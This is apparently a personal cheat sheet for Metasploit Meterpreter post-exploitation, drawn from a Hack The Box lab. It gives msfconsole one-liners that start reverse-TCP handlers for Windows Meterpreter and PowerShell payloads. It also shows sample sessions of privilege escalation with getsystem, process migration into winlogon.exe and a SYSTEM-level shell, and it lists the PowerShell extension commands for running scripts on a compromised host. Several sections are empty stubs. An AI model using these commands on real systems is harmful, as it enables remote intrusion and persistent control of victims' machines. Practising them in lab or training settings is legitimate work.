 # meterpreter

- [Offensive PowerShell with Metasploit Meterpreter](#offensive-powershell-with-metasploit-meterpreter)
- [TL;DR](#tldr)
- [One Liner Start Meterpreter](#one-liner-start-meterpreter)

# [TL;DR](#tldr-1)
```sh
sysinfo
getuid
getsid
getsystem
getpid
migrate <to-new-PID>
ps <string-to-search>
ps -S <string-to-search>
sessions
```

## 
```sh
echo > ~/myip.txt <IP>
zsh
echo $myip
```

# [One Liner Start Meterpreter](#one-liner-start-meterpreter-1)
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST tun0;set LPORT $port;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT $port;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/powershell_reverse_tcp;set LHOST tun0; set LPORT $port;run;"
```

## 
```sh

```

### Syntax
```

```
## Examples 

### sysinfo
```sh
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### getuid
```sh
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
```

### getsid
```sh
meterpreter > getsid
Server SID: S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550
```

### getsystem
```sh
meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: 1726 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter >
```

### getpid
```sh
meterpreter > getpid
Current pid: 1572
meterpreter >
```

### migrate <to-new-PID>
```sh
meterpreter > migrate 432
[*] Migrating from 1572 to 432...
...
[*] Migration completed successfully.
meterpreter > 
```

### getpid
```sh
meterpreter > getpid
Current pid: 432
meterpreter >
```

### ps <string-to-search>
```sh
meterpreter > ps w3
Filtering on 'w3'

Process List
============

 PID   PPID  Name      Arch  Session  User             Path
 ---   ----  ----      ----  -------  ----             ----
 1572  1600  w3wp.exe  x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe
```

### ps <string-to-search>
```sh
meterpreter > ps win
Filtering on 'win'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 376  304   wininit.exe
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### ps -S <string-to-search>
```sh
meterpreter > ps -S winlogon
Filtering on 'winlogon'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### sessions
```sh
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.52:1234 -> 10.10.10.5:49456 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.52:1234 -> 10.10.10.5:49453 (10.10.10.5)
```

# [Offensive PowerShell with Metasploit Meterpreter](https://www.sans.org/blog/offensive-powershell-metasploit-meterpreter/)

## load the PowerShell extension
```sh
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter >
```

## Now we have access to 4 PowerShell-related commands
`powershell_execute`: Execute a PowerShell statement, including complex-statements separated by semicolons
`powershell_import`: Import a local PowerShell script to execute on the remote system over the Meterpreter channel
`powershell_shell`: Launch an interactive PowerShell shell
`powershell_session_remove`: Used to remove a PowerShell session when created using execute/import/shell with the -s argument

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```
